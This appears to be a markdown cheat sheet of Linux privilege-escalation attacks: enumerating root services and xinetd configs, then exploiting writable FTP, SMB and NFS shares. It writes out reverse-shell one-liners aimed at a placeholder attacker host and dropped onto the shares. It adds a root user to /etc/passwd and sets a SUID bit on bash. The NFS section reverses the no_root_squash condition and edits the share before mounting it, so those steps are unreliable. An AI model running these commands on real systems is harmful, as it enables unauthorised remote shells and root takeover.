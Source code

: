 #### Services Running as Root
- **Lists processes running as root:**
	```bash
	ps aux | grep root
	```

#### Network Configuration Files
- **Displays `xinetd` service configuration:**
	```bash
	cat /etc/xinetd.conf
	```
- **Displays detailed `xinetd` service configurations:**
	```bash
	cat /etc/xinetd.d/*
	```

#### Exploiting Misconfigured FTP
- **Check for Anonymous FTP Login:**
	```bash
	ftp <target_ip>
	```
- **Exploit FTP Write Access:**
	```bash
	echo "bash -i >& /dev/tcp/<attacker_ip>/<attacker_port> 0>&1" > shell.sh
	ftp <target_ip>
	put shell.sh
	```

#### Exploiting SMB (Samba) Shares
- **Mount a Writable SMB Share:**
	```bash
	smbclient //target/share -U user
	mount -t cifs //target/share /mnt -o username=user,password=pass
	```
- **Exploit Writable SMB Share to Upload Malicious Files:**
	```bash
	echo 'bash -i >& /dev/tcp/<attacker_ip>/<attacker_port> 0>&1' > /mnt/shell.sh
	```

#### Exploiting NFS 
- If `no_root_squash` is not enabled, create files as root in the mounted share:
- **List NFS Shares:**
	```bash
	showmount -e <target_ip>
	```
- **Create a New Root User on NFS Share by Overwriting `/etc/passwd`:**
	```bash
	echo 'newuser:x:0:0::/root:/bin/bash' >> /mnt/etc/passwd
	```
- **Mount the NFS Share:**
	```bash
	mount -t nfs <target_ip>:/nfs/share /mnt
	```
- **Set the SUID bit on `/bin/bash`, giving root privileges when executed:**
	```bash
	cp /bin/bash /mnt/bash; chmod +s /mnt/bash
	```
